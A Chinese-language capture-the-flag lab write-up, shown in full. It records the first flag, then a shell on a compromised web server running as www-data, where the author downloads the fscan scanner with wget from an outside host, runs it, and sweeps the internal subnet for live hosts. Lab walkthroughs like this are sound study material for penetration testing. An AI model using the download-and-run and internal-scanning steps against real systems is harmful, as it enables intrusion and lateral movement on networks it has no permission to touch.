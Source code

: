 ## flag - 01

```plaintext
 ________ ___       ________  ________  ________    _____
|\  _____\\  \     |\   __  \|\   ____\|\   __  \  / __  \
\ \  \__/\ \  \    \ \  \|\  \ \  \___|\ \  \|\  \|\/_|\  \
 \ \   __\\ \  \    \ \   __  \ \  \  __\ \  \\\  \|/ \ \  \
  \ \  \_| \ \  \____\ \  \ \  \ \  \|\  \ \  \\\  \   \ \  \
   \ \__\   \ \_______\ \__\ \__\ \_______\ \_______\   \ \__\
    \|__|    \|_______|\|__|\|__|\|_______|\|_______|    \|__|


        flag01: flag{22159bd3-4d49-44be-a4a1-aba3e8a03834}
```

## 入口点 内网扫描

查看网卡信息

```bash
(remote) www-data@ubuntu-web:/tmp$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.15.26  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe23:b5cb  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:23:b5:cb  txqueuelen 1000  (Ethernet)
        RX packets 123137  bytes 126113430 (126.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 46383  bytes 16332362 (16.3 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1220  bytes 108670 (108.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1220  bytes 108670 (108.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

上传 `fscan` 并进行扫描

```bash
(remote) www-data@ubuntu-web:/tmp$ wget 139.*.*.*:8000/fscan_amd64.1
--2024-07-26 14:45:03--  http://139.*.*.*:8000/fscan_amd64.1
Connecting to 139.*.*.*:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6217056 (5.9M) [application/octet-stream]
Saving to: ‘fscan_amd64.1’

fscan_amd64.1                                       100%[===================================================================================================================>]   5.93M  13.3MB/s    in 0.4s

2024-07-26 14:45:04 (13.3 MB/s) - ‘fscan_amd64.1’ saved [6217056/6217056]

(remote) www-data@ubuntu-web:/tmp$ chmod +x fscan_amd64.1
(remote) www-data@ubuntu-web:/tmp$ ./fscan_amd64.1 -h 172.22.15.26/24
......
start ping
(icmp) Target 172.22.15.13    is alive
(icmp) Target 172.22.15.18    is alive
(icmp) Target 172.22.15.24    is alive
(icmp) Target 172.22.15.26    is alive
(icmp) Target 172.22.15.35    is alive
```